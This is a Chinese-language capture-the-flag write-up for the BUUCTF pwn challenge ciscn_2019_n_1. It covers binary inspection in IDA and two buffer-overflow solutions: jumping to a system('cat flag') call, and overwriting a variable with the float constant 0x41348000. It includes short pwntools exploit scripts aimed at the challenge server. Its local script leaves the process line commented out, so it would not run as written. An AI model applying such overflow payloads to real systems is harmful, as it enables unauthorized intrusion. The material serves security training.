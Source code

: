 # BUUCTF-PWN-ciscn_2019_n_1

## 1.溢出到shell位置

下载文件

checksec



<img src="https://i-blog.csdnimg.cn/blog_migrate/b24665fa47871aa9509a12db45e0f333.png" alt="" style="max-height:220px; box-sizing:content-box;" />


file



<img src="https://i-blog.csdnimg.cn/blog_migrate/85e8bfe39a63b781ff3d8245c35197e3.png" alt="" style="max-height:122px; box-sizing:content-box;" />


发现是64位的 然后 放入ida

查看字符串



<img src="https://i-blog.csdnimg.cn/blog_migrate/bbec5e746f2ad322788436feedee5618.png" alt="" style="max-height:387px; box-sizing:content-box;" />


发现 cat flag

然后看看



F5反编译



<img src="https://i-blog.csdnimg.cn/blog_migrate/4c7bb0c2e607b86b2fe0030a36bd3361.png" alt="" style="max-height:443px; box-sizing:content-box;" />


我们发现了system 然后get()函数

我们可以使用栈溢出我们看看 v1函数的地址 是30h 然后是64位的 所以 基地址是8字节

我们开始查看 system的地址



<img src="https://i-blog.csdnimg.cn/blog_migrate/72eb5739c7681c4e6a5930842f177e8a.png" alt="" style="max-height:162px; box-sizing:content-box;" />


所以发现system的地址 开始写exp

```cobol
from pwn import *
p=remote('node4.buuoj.cn',27236)
payload = b'A'*(0x30+0x08)+p64(0x4006BE)
p.sendline(payload)
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/22146385c4b7c5e5b6415cda18598f58.png" alt="" style="max-height:547px; box-sizing:content-box;" />


得到

## 2.修改v2的值

我们需要知道在定义变量的时候是一段连续的距离 因为这个事全局变量 所以是在上面的

两个图来理解





<img src="https://i-blog.csdnimg.cn/blog_migrate/c7f0040cf9b35ec5b5147ac5773f3522.png" alt="" style="max-height:510px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/c58bc5835987f3b132cb86b2d4395b7a.png" alt="" style="max-height:747px; box-sizing:content-box;" />


这两个就能发现 v1和v2相差了 (0x30-0x04)

然后我们需要找到



<img src="https://i-blog.csdnimg.cn/blog_migrate/c85cdfc45472518539d020323e5170de.png" alt="" style="max-height:198px; box-sizing:content-box;" />




判断语句的11.28125在内存里的表达方式

在汇编里面能找到



<img src="https://i-blog.csdnimg.cn/blog_migrate/5d37fd873822723b4e76732baf7f6ae7.png" alt="" style="max-height:131px; box-sizing:content-box;" />


找到地址了

exp

本地

```cobol
from pwn import *
#p=process('./ciscn_2019_n_1')
payload=b'A'*(0x2c)+p64(0x41348000)
p.sendline(payload)
p.interactive()
 
 
 
 
```

远程

```cobol
from pwn import *
p=remote('node4.buuoj.cn',25149)
payload=b'A'*(0x2c)+p64(0x41348000)
p.sendline(payload)
p.interactive()
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/11d91d7119036fb876cda5532666c5fc.png" alt="" style="max-height:278px; box-sizing:content-box;" />


同样可以得到